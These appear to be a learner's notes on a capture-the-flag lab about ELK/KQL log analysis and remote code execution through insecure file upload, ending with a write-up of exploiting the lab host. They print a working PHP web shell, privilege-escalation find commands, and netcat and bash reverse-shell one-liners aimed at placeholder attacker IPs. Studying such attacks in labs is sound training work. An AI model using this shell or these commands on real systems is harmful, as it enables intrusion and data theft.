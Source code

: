 Learning Objectives
	Learn about Log analysis and tools like ELK.
		Stack of 3 tools - Elasticsearch, Logstash, and Kibana. 
		Search engine and analytics tool that stores, indexes and analyzes data. 
	Learn about Kibana Query Language (KQL) and how it can be used to investigate logs using ELK.
		Used to query and analyze data in Elasticsearch. 
	Learn about RCE (Remote Code Execution), and how this can be done via insecure file upload.
		Remote access to vulnerable systems as a result of weak input validation. 
Starting w/ ELK
	Kibana 
		Search bar: Enter queries using KQL
		Collections || Index Pattern: group of logs - single hosts, group of hosts w/ similar purpose
		Fields: Data attributes parsed from logs. (e.g., source IP, response, name)
		Timeline: Bar chart displaying event count over time 
		Documents (Logs): info on what's been logged. 
		Time filter: Specify timeframe (e.g., last 24 hours)
	KQL - Similar to Splunk's Search Processing Language (SPL)
		Searches documents for values 
			e.g., we'd use the following syntax to find all documents that matches a specific IP address:
				ip.address:"10.10.10.10" ++ other syntax below

| Query/Sntax  | Description                                                                                           | Example                                      |
| ------------ | ----------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| ""           | Search documents for specific values                                                                  | "10.2.1.243"                                 |
| * (wildcard) | Searches documents for similar matches                                                                | South* (returns South America, South Africa) |
| OR           | Returns documents that contains either value provided                                                 | "South America" OR "Bolivia"                 |
| AND          | Returns documents that contain both values provided                                                   | "Joe" AND "25"                               |
| :            | Searches through a specified field of a document for a value (must be valid field from index pattern) | ip.address: x.x.x.x                          |
Lucene Query
		Used alongside Kibana and supports fuzzy terms (search for documents containing specific terms or regex)
TASK: 
	Our systems alerted the SOC team to a web shell being uploaded to the WareVille Rails booking platform on Oct 1, 2024. Our task is to review the web server logs to determine how the attacker achieved this.
To reduce the amount of 'hits' or log entries, we can click (+, only shows that value) or (-, removes it from log entries) Clicking on filters = applying relevant KQL syntax 

Analyzing the attack 
	File uploads vulnerabilities occur as a result of poorly implemented input validation. 
		Often exploited by remote code execution (upload malicious script directly to webserver) and XSS (steals cookies and send back to attackers server)
	Web Shell
		Remote access by uploading scripts to vulnerable servers. Once configured, attackers can use the infected system as if they own it. Moreover, they can run commands to modify and/or exfiltrate data, move laterally (privilege escalation) + they can add the infected host to a botnet and have it carry out attacks. 

Exploiting RCE via File Upload
	First, identify a vulnerable app. Then, create a malicious file that will allow RCE once uploaded. 
	e.g., PHP File w/ malicious script
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
This script displays an input field and after entering input, the underlying OS will run it using the system() PHP function, and the output is displayed to the user. 
	Here's what it looks like for the attacker. 
	![Command being run](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358453.png)
Linux cmds we can run when probing infected hosts. 

| uname -a                                                  | Will give you some system information like the OS, kernel version, and more\|<br>\|id\|If the current user is assigned to any groups                                          |
| --------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ifconfig                                                  | Allows you to understand the system's network setup                                                                                                                           |
| find / -writable -type  f 2>/dev/null \| grep -v "/proc/" | \|Also helpful in privilege escalation attempts used to find files with writable permissions\|                                                                                |
| find / -perm -4000 -type f 2>/dev/null                    | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
| nc -e /bin/sh <your-ip> <port>                            | A command used to begin a reverse shell via Netcat                                                                                                                            |
| bash -i >& /dev/tcp/<your-ip>/<port> 0>&1                 | A command used to begin a reverse shell via bash                                                                                                                              |
Practical 
	Investigate logs 
	Recreate attack on frostypines.thm 
		access by referencing url in hosts file 
			echo "10.10.107.238 frostypines.thm" >> /etc/hosts
		
![[Pasted image 20250119171537.png]]
![[Pasted image 20250119171727.png]]
Before the attack, I created a shell.php file containing the code mentioned earlier in the room that executes a web shell when ran
Then, I navigated to the website's admin console, created a new room and uploaded the shell.php file where the website is expecting a photo of the new room. 
I discovered the link by selecting 'copy image link' on another photo, then modified the path to open shell.php. 
![[Pasted image 20250119174350.png]]


Since the question is requesting information about flag.txt, I ran 'ls' to locate the file.
	![[Pasted image 20250120135522.png]]
Lastly, I used cat to output the text in the web shell. 
	![[Pasted image 20250120135617.png]]

![[Pasted image 20250120135716.png]]